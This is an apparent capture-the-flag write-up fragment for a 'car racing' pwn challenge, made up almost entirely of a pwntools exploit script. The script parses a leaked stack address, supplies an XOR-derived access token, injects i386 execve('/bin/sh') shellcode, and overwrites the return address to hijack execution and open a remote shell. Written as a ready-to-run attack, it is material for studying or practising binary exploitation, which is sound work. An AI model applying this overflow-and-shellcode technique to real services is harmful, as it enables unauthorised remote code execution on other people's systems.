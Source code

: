 ```
pay = shell
pay += 'a'*(0x30 - len(shell))
pay += p32(eip-0x30)
```
## Exploit:
```python=
from pwn import *

#p = process('./chall')

p = remote(host, 5005)

#gdb.attach(p)

p.recv()
p.sendline('1')

p.recv()
p.sendline('1')

p.recvuntil('You may find your car at this location: ')
leak = p.recvline()[:-1]
leak = int(leak, 16)
info("leak: %s"%hex(leak))

p.sendline('2')
p.recvuntil('2. Touring car racing\n')
p.sendline('2')

p.recvuntil('Give us your access token key: \n')
p.sendline(str(0x1337c0de ^ 0xc0cac0de))

p.recvuntil('Give us your navigation commands to win the race!\n')

shell = 'xor ecx, ecx\n'
shell += 'xor edx, edx\n'
shell += 'push eax\n'
shell += 'push 0x68732f\n'
shell += 'push 0x6e69622f\n'
shell += 'mov ebx, esp\n'
shell += 'push 0xb\n'
shell += 'pop eax\n'
shell += 'int 0x80\n'

shell = asm(shell)

eip = leak - 0x13
info("eip: %s"%hex(eip))

pay = shell
pay += 'a'*(0x30 - len(shell))
pay += p32(eip-0x30)

p.sendline(pay)

p.interactive()

```
